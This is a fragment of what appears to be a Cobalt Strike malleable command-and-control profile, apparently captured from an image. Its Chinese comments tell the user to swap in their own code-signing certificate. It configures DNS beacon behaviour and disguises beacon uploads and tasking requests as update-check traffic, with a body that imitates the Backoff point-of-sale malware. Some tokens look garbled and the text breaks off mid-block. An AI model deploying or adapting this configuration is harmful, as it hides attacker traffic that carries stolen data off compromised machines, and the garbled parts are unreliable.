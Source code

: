 ```
    set validity "365";
}

#设置，修改成你的证书名称和证书密码
code-signer{
    set keystore "henry.store";
    set password "qq123456";
    set alias "henry";
}
 
#指定DNS beacon不用的时候指定到IP地址
set dns_idle "8.8.4.4";
 
#每个单独DNS请求前强制睡眠时间
set dns_sleep "0";
 
#通过DNS上载数据时主机名的最大长度[0-255]
set maxdns    "235";
 
http-post {
    set uri "/windebug/updcheck.php /aircanada/dark.php /aero2/fly.php /windowsxp/updcheck.php /hello/flash.php";
 
    client {
        header "Accept" "text/plain";
        header "Accept-Language" "en-us";
        header "Accept-Encoding" "text/plain";
        header "Content-Type" "application/x-www-form-urltrytryd";
 
        id {
            netbios;
            parameter "id";
        }
 
        output {
            base64;
            prepend "&op=1&id=vxeykS&ui=Josh @ PC&wv=11&gr=backoff&bv=1.55&data=";
            print;
        }
    }
 
    server {
        output {
            print;
        }
    }
}
 
http-get {
    set uri "/updates";
 
    client {
        metadata {
            netbiosu;
            prepend "user=";
            header "Cookie";
        }
    }
 
    server {
        header "Content-Type" "text/plain";
 
        output {
```